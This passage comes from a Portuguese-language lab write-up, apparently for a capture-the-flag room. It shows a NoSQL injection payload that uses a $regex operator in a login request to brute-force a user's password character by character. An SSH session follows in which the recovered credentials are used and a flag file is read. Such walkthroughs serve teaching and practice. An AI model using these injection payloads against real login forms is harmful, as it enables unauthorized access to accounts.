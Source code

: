 Payload de teste no `intruder`: `user=pedro&pass[$regex]=^§a§..........$&remember=on`

Encontramos a senha, após testar todos os 11 caracteres.

![password regex](/assets/img/posts/2025/03/nosql-injection/nosql-regex-password.png)

```shell
root@ip-10-10-4-224:~# ssh pedro@10.10.201.31
pedro@10.10.201.31's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Jun 23 03:34:24 2021 from 192.168.100.250
pedro@nosql-nolife:~$ cat flag.txt 
flag{N0Sql_n01iF3!}
pedro@nosql-nolife:~$ 
```

## Syntax Injection: Identification and Data Extraction

A aplicação retorna o e-mail de qualquer usuário.

![Syntax](/assets/img/posts/2025/03/nosql-injection/nosql-sintax.png)
